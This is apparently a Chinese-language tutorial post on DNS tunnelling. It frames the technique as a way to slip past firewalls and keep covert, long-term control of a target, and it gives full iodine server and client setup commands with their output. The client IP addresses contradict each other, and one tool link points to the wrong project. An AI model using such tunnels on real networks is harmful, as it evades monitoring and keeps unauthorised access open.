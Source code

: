 如果你在互联网上有台定制的服务器。只要依靠 DNS 的数据包，就可以实现数据交换，那么对内网的渗透难度会小很多。从 DNS 协议上看，你只是在一次次的查询某个特定域名，并得到解析结果。但实际上，你在和外部通讯，你没有直接连到局域网外的机器，因为防火墙不会转发你的 IP 包出去。但局域网上的 DNS 服务器帮你做了中转。这就是 DNS Tunnel了。通过DNS Tunnel可以比较好的维持对目标的长期控制并且不易被发现.DNS隧道将所有流量进行封装,通过DNS请求传送出去,一般的安全设备和软件不会对DNS请求进行详细的检查,攻击者通过将payload加密隐藏在查询的hostname中进行发送,DNS服务器递归查询,最终到达攻击者的服务端解密,服务端也可以下发指令给客户端,客户端解密之后执行控制端的命令。

{% img dnspayload /2018/05/14/dns-tunnel/dns-payload.png %}

### DNS tunnel implement tools

DNS tunnel实现的工具有很多，比如：OzymanDNS、tcp-over-dns、heyoka、iodine、dns2tcp

Win7平台：[dns2tcp](https://github.com/iagox86/dnscat2)
Linux平台：[iodine](https://github.com/yarrick/iodine)

这里只介绍基于Linux(CentOS)平台下iodine软件的实现方法.

#### Tools
域名：barracudachina.com
主机Linux两台：CentOS 7
Tunnel软件：iodine

#### Operations
**[Server]**

	# yum -y install iodine-server

	# iodined -f 10.0.0.1 -P SecretPassword tunnel.barracudachina.com
	Opened dns0
	Setting IP of dns0 to 10.0.0.1
	Setting MTU of dns0 to 1130
	Opened IPv4 UDP socket
	Listening to dns for domain tunnel.barracudachina.com

	# ifconfig
	dns0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1130
        	inet 10.0.0.1  netmask 255.255.255.224  destination 10.0.0.1
        	unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        	RX packets 59  bytes 4956 (4.8 KiB)
        	RX errors 0  dropped 0  overruns 0  frame 0
        	TX packets 59  bytes 4956 (4.8 KiB)
        	TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

**[Client]**

	# yum -y install iodine-client
	
	# iodine -f -r 192.158.0.1 -P SecretPassword tunnel.barracudachina.com   (Replace 192.168.0.1 with your server's ip address)
	Opened dns0
	Opened IPv4 UDP socket
	Sending DNS queries for tunnel.barracudachina.com to 192.168.150.158
	Autodetecting DNS query type (use -T to override).
	Using DNS type NULL queries
	Version ok, both using protocol v 0x00000502. You are user #0
	Setting IP of dns0 to 10.0.0.2
	Setting MTU of dns0 to 1130
	Server tunnel IP is 10.0.0.1
	Skipping raw mode